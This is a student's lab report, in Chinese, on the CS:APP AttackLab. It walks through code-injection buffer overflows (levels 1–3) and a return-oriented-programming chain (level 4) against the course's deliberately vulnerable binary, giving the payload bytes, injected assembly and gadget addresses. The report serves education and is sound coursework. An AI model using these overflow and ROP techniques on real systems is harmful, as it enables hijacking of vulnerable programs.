



# AttackLab

**姓名**：魏剑宇

**学号**：PB17111586

**代码地址**：[Github](https://github.com/kaleid-liner/CSAPP/tree/master/attack)(在DDL之后我会将此仓库make public)

**实验环境**：IDA Pro on Windows 10、 gdbserver on Ubuntu（虚拟机）

---

## Code-injection attacks

### Level 1

这一题相对比较基础，只需要在`getbuf`返回后，能返回到`touch1`即可。`test` 代码如下，

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

在`getbuf`调用了`gets`，未进行字符数组长度限制等操作，且`buf`数组在栈中，非常易于收到缓冲区溢出攻击。`getbuf`的汇编如下（来自ida pro），

```assembly
sub     rsp, 28h
mov     rdi, rsp        ; dest
call    Gets
mov     eax, 1
add     rsp, 28h
retn
```

从`sub rsp, 28h`可以知道，`buf`的长度是28h，即40 bytes。故输入的字符串长度超过28h即可溢出。

在下一步之前，我们先清楚在栈退出时的布局，如下所示。

| address | content          |
| ------- | ---------------- |
| rsp + x | 参数（if exist） |
| rsp     | 返回地址         |
| rsp - x | local variables  |

（这里由于没有一般的`push ebp; mov ebp esp`的过程，栈和一般的有所不同。

这里，我们需要做的就是在`gets`的时候，输入足够长的字符串，填充掉`[rsp]`处的内容，使返回地址变为`touch1`的地址。能这样做的原因是`ret`指令就是跳转到`[esp]`的位置并`pop`。

知道这个，因为`touch1`的地址是`0x4017C0`，我们需要输入的内容的字符串表示就是`'00 ' * 40 + 'C0 17 40 00 00 00 00 00'`。这样就会跳转到`touch1`的地址了。



### Level 2

这题需要注入一段代码，让其执行。需要将`edi`设为cookie的值。回忆一下，*System V AMD64 ABI*里，`edi`用来传递第一个参数。这里，我的`cookie.txt`里的内容是`0x59b997fa`。

这题的思路应该是覆盖返回地址，返回到自己注入的代码的地址处，执行`mov edi, 0x59b997fa`，设置`[esp]`的内容为`touch2`的地址，并`ret`。

以下是汇编代码：

```assembly
.intel_syntax noprefix       
.quad 0, 0, 0, 0 ,0          
.quad 0x5561DCA8             
                             
movq rdi, 0x59b997fa         
mov qword ptr [rsp], 0x4017EC
ret                          
```

如上，`.quad 0, 0, 0, 0, 0`是填充40个bytes的0。将返回地址填充为`0x5561DCA8`（这个地址是注入到栈里的代码的开始，通过用`gdb`调试一次就可以得到）。之后执行的代码的作用是很明显的。最后的`ret`将返回到`0x4017EC`，即`touch2`的地址。

为了得到注入`touch2`的字符串，执行以下操作

```shell
gcc -c touch2.s
objcopy touch2.o -O binary touch2
```

gcc 汇编后的代码是 ELF 格式的可执行文件，所以需要通过`objcopy`转化为纯二进制文件，即只含数据和代码的文件。



### Level 3

和level2大同小异。只不过这回`rdi`的内容需要设置为字符串的地址。字符串的地址可以通过计算得到。需要注意的是字符串放置的位置需要注意，因为之后`hexmatch`里面可能会覆盖部分栈的内容。

`hexmatch`中有如下内容`add rsp, 0FFFFFFFFFFFFFF80h`，说明用到了128byte的栈。多留一点不会造成什么危害，所以我空余了160个bytes的空间。之后在内存中填充字符串`59b997fa`，即`cookie`的值。

```assembly
.intel_syntax noprefix
.quad 0, 0, 0, 0 ,0
.quad 0x5561DCA8

movq rdi, 0x5561DD30
mov qword ptr [rsp], 0x4018FA
ret

.quad 0, 0, 0, 0, 0
.quad 0, 0, 0, 0, 0
.quad 0, 0, 0, 0, 0

.ascii "59b997fa\0"
```

生成输入文件的操作和[level2](#level-2)的内容相同。最后的结果如下，



## Return-Oriented Programming

### Level 4

需要这种形式的攻击的原因主要是程序做了一些防御手段

- 栈中的内容被设置为不可执行的
- 栈的位置是随机的

所以很难找到植入栈中的代码的地址。在这种情况下，ROP应运而生。这个的原理在[writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf)中已有介绍。

所以重点是在汇编中找到合适的 gadget 进行组合。分析 gadget farm 的内容，可以找到以下有用的汇编。

```assembly
; addval_273
; 48 89 C7 C3
movq rdi, rax
ret

; addval_219
; 58 90 C3
popq rax
nop
ret

; setval_426
; 48 89 C7 90 C3
movq rdi, rax
nop
ret

; getval_481
; 5C 89 C2 90 C3
popq rsp
movl edx, eax
ret

; addval_190
; 48 89 E0 C3
movq rax, rsp
ret
```

我只需要用到`popq rax`和`movq rdi, rax`。所以，我需要做的应该是，

- 覆盖返回地址为`addval_219`中`58 90 C3`处的地址，即`0x4019AB`。
- 通过`popq rax`来将`rax`设为`0x59B997FA`。
- 返回到`addval_273`的地址，即`0x4019A2`。
- 通过`mov rdi, rax`将`rdi`设为cookie的值。

所以最后的地址为的内容为`'00 ' * 40 + 'AB 19 40 00 ' + '00 ' * 4 + 'FA 97 B9 59 ' + '00 ' * 4 'A2 19 40 00 ' + '00 ' * 4 + 'EC 17 40 00 ' + 00 ' * 4 + '\n'`.

结果如下，


## Reproduction

为了复现我的结果，只需要运行：

```shell
./generate.sh
```

可以得到`touch1`、`touch2`、`touch3`、`touch4`，即为这四题的答案。

